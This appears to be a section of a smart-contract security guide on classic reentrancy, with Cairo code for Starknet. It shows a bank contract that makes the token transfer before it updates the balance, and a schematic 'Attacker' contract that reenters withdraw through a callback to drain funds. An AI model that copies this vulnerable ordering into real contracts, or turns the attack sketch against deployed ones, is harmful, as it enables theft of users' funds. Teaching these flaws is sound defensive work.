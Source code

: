 ### 7.2 Reentrancy Vulnerabilities

#### Classic Reentrancy

**Description:** External call before state update allows reentrancy

**Example:**
```cairo
#[starknet::contract]
mod VulnerableBank {
    #[storage]
    struct Storage {
        balances: LegacyMap<ContractAddress, u256>,
    }

    #[external(v0)]
    fn withdraw(ref self: ContractState, amount: u256) {
        let caller = get_caller_address();
        let balance = self.balances.read(caller);

        assert(balance >= amount, 'insufficient balance');

        // External call BEFORE state update
        IERC20Dispatcher { contract_address: self.token.read() }
            .transfer(caller, amount);

        // State update AFTER external call
        self.balances.write(caller, balance - amount);
        // ← Attacker can reenter here!
    }
}

// EXPLOIT
#[starknet::contract]
mod Attacker {
    #[external(v0)]
    fn attack(ref self: ContractState, bank: ContractAddress) {
        // Deposit 1 ETH
        bank.deposit(1);

        // Withdraw, will reenter
        bank.withdraw(1);
    }

    // This gets called during transfer
    #[external(v0)]
    fn on_token_received(ref self: ContractState) {
        // Reenter!
        bank.withdraw(1);  // Balance not yet updated
        // Can drain all funds
    }
}
```
